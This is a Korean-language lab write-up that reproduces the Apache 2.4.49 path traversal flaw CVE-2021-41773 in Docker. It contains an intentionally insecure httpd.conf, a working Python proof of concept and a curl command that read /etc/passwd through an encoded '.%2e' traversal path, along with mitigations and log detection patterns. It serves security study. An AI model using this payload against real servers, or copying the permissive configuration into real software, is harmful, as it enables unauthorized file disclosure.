



# CVE-2021-41773 - Apache HTTP Server Path Traversal / File Disclosure

## 1. 취약점 요약

CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생한 Path Traversal 취약점이다.

Apache HTTP Server 2.4.49의 경로 정규화 처리 과정에 문제가 있어, 공격자가 URL 인코딩된 `..` 경로를 포함한 요청을 보낼 경우 서버의 의도된 디렉터리 범위 밖 파일에 접근할 수 있다.

본 실습에서는 Docker Official Image인 `httpd:2.4.49`를 기반으로 취약한 Apache 환경을 구성하고, Alias 경로와 path traversal payload를 이용해 `/etc/passwd` 파일이 노출되는 것을 확인한다.

본 실습은 원격 코드 실행이 아니라 파일 노출 재현에 초점을 둔다.

## 2. 환경 구성

### 테스트 대상

- Product: Apache HTTP Server
- Version: 2.4.49
- CVE: CVE-2021-41773
- Vulnerability Type: Path Traversal / File Disclosure
- Base Image: `httpd:2.4.49`
- Test Port: `8080`

### 파일 구성

```text
Apache/CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── httpd.conf
├── poc.py
├── README.md
└── images/
    ├── 1_env_up.png
    ├── 2_normal_page.png
    └── 3_poc_result.png
```

### Dockerfile

```dockerfile
FROM httpd:2.4.49

COPY httpd.conf /usr/local/apache2/conf/httpd.conf

RUN mkdir -p /usr/local/apache2/htdocs /usr/local/apache2/icons \
    && printf '%s\n' "CVE-2021-41773 vulnerable Apache lab" > /usr/local/apache2/htdocs/index.html \
    && httpd -t
```

### docker-compose.yml

```yaml
services:
  apache:
    build:
      context: .
    container_name: cve-2021-41773-apache
    ports:
      - "8080:80"
```

### httpd.conf 주요 설정

```apache
<Directory />
    AllowOverride none
    Require all granted
</Directory>

Alias /icons/ "/usr/local/apache2/icons/"

<Directory "/usr/local/apache2/icons">
    Options None
    AllowOverride None
    Require all granted
</Directory>
```

위 설정은 취약점 재현을 위해 웹 루트 외부 파일 접근이 가능하도록 구성한 실습용 설정이다.

운영 환경에서는 루트 디렉터리에 대해 `Require all denied`와 같은 접근 제한을 적용해야 한다.

## 3. 취약 조건

본 취약점이 재현되기 위한 조건은 다음과 같다.

1. Apache HTTP Server 2.4.49 버전을 사용한다.
2. Alias류 경로가 존재한다.
3. Alias 경로 밖의 파일이 `Require all denied`로 보호되지 않는다.
4. 공격자가 HTTP 요청을 보낼 수 있다.
5. URL 인코딩된 path traversal payload가 서버에서 부적절하게 처리된다.

본 실습에서는 `/icons/` Alias 경로를 만들고, 루트 디렉터리 `/`에 대해 `Require all granted`를 설정하여 취약 조건을 구성하였다.

## 4. 실행 방법

### 4.1 취약 환경 실행

```bash
docker compose up -d --build
```

### 4.2 컨테이너 실행 확인

```bash
docker ps
```

정상 실행 시 `cve-2021-41773-apache` 컨테이너가 실행 중이어야 한다.

### 4.3 정상 페이지 확인

```bash
curl http://localhost:8080/
```

예상 응답은 다음과 같다.

```text
CVE-2021-41773 vulnerable Apache lab
```

## 5. PoC 코드

```python
import http.client
import sys
from urllib.parse import urlparse


PAYLOAD_PATH = "/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"


def print_usage():
    print("Usage: python3 poc.py http://localhost:8080")


def main():
    if len(sys.argv) != 2:
        print_usage()
        sys.exit(1)

    target = sys.argv[1].rstrip("/")
    parsed = urlparse(target)

    if parsed.scheme not in ("http", "https") or not parsed.hostname:
        print("[-] Invalid target URL.")
        print_usage()
        sys.exit(1)

    port = parsed.port
    if port is None:
        port = 443 if parsed.scheme == "https" else 80

    connection_class = (
        http.client.HTTPSConnection
        if parsed.scheme == "https"
        else http.client.HTTPConnection
    )

    host_header = parsed.netloc
    print(f"[*] Target: {target}")
    print(f"[*] Payload path: {PAYLOAD_PATH}")

    conn = None

    try:
        conn = connection_class(parsed.hostname, port, timeout=5)
        conn.request("GET", PAYLOAD_PATH, headers={"Host": host_header})

        response = conn.getresponse()
        body = response.read().decode("utf-8", errors="replace")

        print(f"[*] Status Code: {response.status}")
        print("[*] Response Body:")
        print(body)

        if response.status == 200 and "root:" in body:
            print("[+] Vulnerability reproduced: /etc/passwd was disclosed.")
        else:
            print("[-] Vulnerability was not reproduced.")

    except Exception as error:
        print(f"[-] Request failed: {error}")
        sys.exit(1)

    finally:
        if conn is not None:
            conn.close()


if __name__ == "__main__":
    main()
```

## 6. 재현 절차

### 6.1 PoC 실행

```bash
python3 poc.py http://localhost:8080
```

성공 시 `/etc/passwd` 파일 내용이 응답에 포함된다.

### 6.2 curl로 직접 확인

```bash
curl --path-as-is "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

`--path-as-is` 옵션은 curl이 `/../` 또는 `/./`와 같은 경로 요소를 자동으로 정리하지 않고, 입력한 URL path를 그대로 보내도록 하기 위해 사용한다.

## 7. 실행 결과

PoC 실행 시 다음과 유사한 결과가 출력된다.

```text
[*] Target: http://localhost:8080
[*] Payload path: /icons/.%2e/.%2e/.%2e/.%2e/etc/passwd
[*] Status Code: 200
[*] Response Body:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
[+] Vulnerability reproduced: /etc/passwd was disclosed.
```

위 결과를 통해 Apache HTTP Server 2.4.49에서 URL 인코딩된 path traversal payload가 정상적으로 차단되지 않고, Alias 경로 밖의 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

## 8. 스크린샷

### 8.1 Docker 환경 실행



### 8.2 정상 페이지 확인



### 8.3 PoC 실행 결과



## 9. 위험도 분석

본 취약점은 인증되지 않은 원격 공격자가 조작된 HTTP 요청만으로 서버의 의도된 디렉터리 범위 밖 파일에 접근할 수 있다는 점에서 위험도가 높다.

CVSS 관점에서 보면 다음과 같이 판단할 수 있다.

- Attack Vector: Network
- Attack Complexity: Low
- Privileges Required: None
- User Interaction: None
- Scope: Unchanged
- Confidentiality Impact: High
- Integrity Impact: None
- Availability Impact: None

본 실습에서는 원격 코드 실행이 아니라 파일 노출까지만 재현하였다. 따라서 기밀성 영향은 높지만, 무결성 및 가용성 영향은 제한적으로 판단하였다.

다만 CGI 실행 환경과 결합될 경우 원격 코드 실행으로 이어질 수 있으므로, 실제 운영 환경에서는 더 큰 위험도를 가질 수 있다.

## 10. 대응 방안

### 10.1 Apache HTTP Server 업데이트

취약한 Apache HTTP Server 2.4.49를 사용하지 않고, 보안 패치가 적용된 버전으로 업데이트한다.

Apache 2.4.50의 수정도 불완전하여 CVE-2021-42013으로 이어졌으므로, 운영 환경에서는 2.4.51 이상 또는 최신 안정 버전 사용을 권장한다.

### 10.2 루트 디렉터리 접근 제한

운영 환경에서는 웹 루트 외부 파일 접근을 차단해야 한다.

```apache
<Directory />
    Require all denied
</Directory>
```

### 10.3 Alias 설정 점검

Alias 또는 ScriptAlias 설정이 필요한 경우, 실제로 공개해야 하는 디렉터리만 허용해야 한다.

```apache
Alias /static/ "/usr/local/apache2/htdocs/static/"

<Directory "/usr/local/apache2/htdocs/static/">
    Require all granted
</Directory>
```

### 10.4 불필요한 CGI 비활성화

CGI가 필요하지 않은 환경에서는 CGI 실행 기능을 비활성화한다.

CVE-2021-41773은 설정에 따라 파일 노출을 넘어 원격 코드 실행으로 이어질 수 있으므로, 실행 가능한 스크립트 경로를 최소화해야 한다.

### 10.5 로그 모니터링

다음과 같은 문자열이 포함된 요청을 탐지하도록 웹 서버 로그를 점검한다.

```text
.%2e
..%2f
%2e%2e
/cgi-bin/
```

## 11. 재현성 고려사항

본 실습 환경은 채점자가 동일한 절차로 취약점을 재현할 수 있도록 다음 사항을 고려하여 구성하였다.

1. `docker compose up -d --build` 명령으로 취약 환경이 생성되도록 구성하였다.
2. Docker Official Image인 `httpd:2.4.49`를 기반으로 사용하였다.
3. 취약점 재현에 필요한 Apache 설정을 `httpd.conf`에 명시하였다.
4. PoC는 Python 표준 라이브러리만 사용하여 별도 패키지 설치가 필요하지 않다.
5. 성공 여부는 응답 본문 내 `root:` 문자열 포함 여부로 확인할 수 있다.
6. 외부 API나 별도 서버에 의존하지 않고 로컬 Docker 환경에서 재현 가능하다.

## 12. 정리

CVE-2021-41773은 Apache HTTP Server 2.4.49의 경로 정규화 문제로 인해 발생한 path traversal 취약점이다.

본 실습에서는 Docker 기반으로 Apache 2.4.49 취약 환경을 구성하고, `/icons/` Alias 경로와 URL 인코딩된 `.%2e/` payload를 이용해 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

이를 통해 취약 버전 사용, 부적절한 디렉터리 접근 제어, Alias 경로 설정이 결합될 경우 원격의 인증되지 않은 공격자에게 민감한 파일이 노출될 수 있음을 확인하였다.

## 13. 참고 자료

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2021-41773
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- Docker Hub httpd Official Image: https://hub.docker.com/_/httpd
- curl man page: https://curl.se/docs/manpage.html